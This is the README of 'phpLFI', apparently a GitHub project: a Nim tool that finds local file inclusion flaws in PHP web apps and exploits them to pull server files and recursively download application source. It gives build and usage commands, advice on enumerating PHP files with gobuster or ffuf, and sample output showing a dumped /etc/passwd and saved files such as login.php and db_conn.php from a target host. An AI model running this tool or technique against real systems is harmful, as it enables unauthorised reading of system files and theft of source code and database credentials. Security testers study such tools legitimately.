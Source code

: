 # phpLFI
Tests for LFI in PHP apps and automates the process of abusing LFI's to download source code and discover new files via includes and recursively download additional source code files.

Compile it: `nim c phpLFI.nim`

Give it at least one php file for the -f option. I recommend you run gobuster/ffuf/etc with the wordlist "SecLists/Discovery/Web-Content/Common-PHP-Filenames.txt" (not included, get it from: https://github.com/danielmiessler/SecLists) to discover more php files and feed any discovered words to the -f parameter as comma separated values.

Please note that this program is limited to discovering and exploiting LFI in PHP only, and only when a single '=' appears in the URL. I may add the ability to test/exploit multiple params at a later date, but feel free to contribute that feature if you need it and can't wait. :)

```
$ ./phpLFI -u:'http://192.168.0.100/image.php?img=blah.jpg' -f:login.php,blah.php

[!] LFI found in url. Successfully accessed /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
mike:x:1000:1000:mike:/home/mike:/bin/bash


[i] Searching php files for includes...

Discovered a file: header.php
Discovered a file: db_conn.php
Discovered a file: index.php
Discovered a file: index.php
Discovered a file: footer.php
Checking file: login.php
    Saving file: login.php
Checking file: header.php
    Saving file: header.php
Checking file: db_conn.php
    Saving file: db_conn.php
Checking file: index.php
    Saving file: index.php
Checking file: footer.php
    Saving file: footer.php
```
